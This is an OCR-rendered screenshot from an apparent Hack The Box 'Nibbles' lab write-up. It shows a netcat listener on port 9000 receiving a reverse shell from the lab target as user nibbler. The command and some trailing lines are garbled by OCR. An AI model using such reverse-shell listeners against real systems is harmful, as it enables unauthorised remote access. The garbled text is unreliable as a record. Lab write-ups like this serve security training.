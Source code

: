 ![](Maszyny/Linux/Nibbles/Pasted%20image%2020210818191228.png)

-(kali kali)-[~/htb/nibbles]
Es rlwrap nc - vnp 9000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on ::: 9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 10.10.10.75.
Ncat: Connection from 10.10.10.75:55772.
SOCKET: Shell has connected! PID: 2581
id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
HTR
6h 1 m
suda
2 rlwran

